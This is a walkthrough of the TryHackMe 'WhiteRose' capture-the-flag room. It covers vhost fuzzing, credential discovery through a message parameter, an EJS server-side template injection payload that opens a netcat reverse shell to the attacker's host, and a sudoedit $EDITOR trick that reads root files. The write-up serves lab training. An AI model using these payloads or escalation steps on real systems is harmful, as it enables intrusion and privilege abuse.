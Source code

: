 # <h1 align="center">TryHackMe: WhiteRose</h1> 

**Difficulty**: Easy\
**Author**: DILSHAD AHAMMED N\
**Room Link**: [https://tryhackme.com/room/whiterose](https://tryhackme.com/room/whiterose)\
**IP**: *10.10.85.2*

---

## Overview

This is my own walkthrough of the WhiteRose room on TryHackMe. I used some different techniques than the original write-up, particularly for gaining shell access and privilege escalation.

We'll cover:

- Enumeration
- Vhost discovery
- Authentication bypass and account discovery
- Exploiting an SSTI vulnerability in EJS
- Custom reverse shell payload
- Privilege escalation using sudoedit `$EDITOR` abuse

---

### Nmap Scan

```bash
nmap 10.10.85.2
```

**Ports discovered:**

- 22 (SSH)
- 80 (HTTP)

Visiting http://10.10.85.2/ redirects us to http://cyprusbank.thm/, so I added it to our hosts file:

```bash
10.10.85.2 cyprusbank.thm
```
Afterward, visiting http://cyprusbank.thm/ displays only a maintenance message.


![cyprusbank.thm](./images/cyprusbank.thm.jpg)
---

## Vhost Enumeration

Since directory fuzzing revealed nothing, I attempted virtual host (vhost) fuzzing:

```bash
ffuf -u 'http://cyprusbank.thm/' -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -t 100 -ic -fw 1
```

### Results:

```
www     [Status: 200]
admin   [Status: 302]
```

I updated `/etc/hosts` with:

```
10.10.85.2 cyprusbank.thm www.cyprusbank.thm admin.cyprusbank.thm
```

Visiting `http://admin.cyprusbank.thm/` redirected to `/login`.

![admin.cyprusbank.thm](./images/admin.cyprusbank.thm.jpg)

---

## Gaining Access as Olivia Cortez

Using the credentials `Olivia Cortez:olivi8` (provided in the room), I logged in to `admin.cyprusbank.thm` and gained access to:

- `/accounts`
- `/transactions`
- `/search`

But I couldn’t view customer phone numbers or access `/settings`.

![admin settings](./images/admin_settings.jpg)
---

## Finding Credentials for Gayle Bev

Going to `Messages` at `http://admin.cyprusbank.thm/messages/?c=5`, I found a chat window.

When sending a new message, the oldest one disappeared. Changing the `c` parameter to a larger number:

```bash
http://admin.cyprusbank.thm/messages/?c=10
```

Displayed older messages, including credentials for **Gayle Bev**.

![messages](./images/messages.png)

---

## EJS SSTI Discovery

Logging in as **Gayle Bev**, I now had access to phone numbers and the previously restricted `/settings` page.

Testing the form didn’t reveal any obvious vulnerabilities. So I fuzzed for extra parameters using `ffuf`:

```bash
ffuf -u 'http://admin.cyprusbank.thm/settings' -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: connect.sid=...' \
  -d 'name=test&password=test&FUZZ=test' \
  -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt \
  -t 100 -fs 2098
```

### Interesting Parameters:

```
include, client, async, error, message
```

Error messages showed this stack trace:

```
TypeError: /home/web/app/views/settings.ejs:4
    <%- include("../components/head"); %>
include is not a function
```

From this and other results, I concluded the app used **EJS (Embedded JavaScript Templates)**. The presence of `client`, `async`, and the stack trace hinted that **SSTI (Server-Side Template Injection)** was likely.

---

## Exploiting EJS SSTI for RCE

I crafted the following payload to inject into a vulnerable parameter:

```bash
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc <MY_IP> 1337 -e bash');s
```

Set up a listener:

```bash
nc -lvnp 1337
```

Then sent the payload via the settings form and successfully caught a reverse shell as `web`.

![web shell](./images/web_shell.png)

---

## Privilege Escalation via sudoedit

Running `sudo -l`:

```bash
User web may run the following commands on cyprusbank:
  (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

### Exploiting `$EDITOR` for File Read

```bash
export EDITOR="vim -- /root/root.txt"
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

This opened `/root/root.txt` in Vim (as root) along with the config file. From here, I simply read the flag.

![root](./images/root_flag.png)

---

## Flags

- **User Flag**: Found in `/home/`
- **Root Flag**: Read using `sudoedit` and `$EDITOR` trick

---

## Takeaways

- Always check for vhosts when directory fuzzing fails.
- Node.js + EJS can be vulnerable to SSTI if misconfigured.
- `sudoedit` is commonly misused in CTFs — always check if `$EDITOR` can be abused.


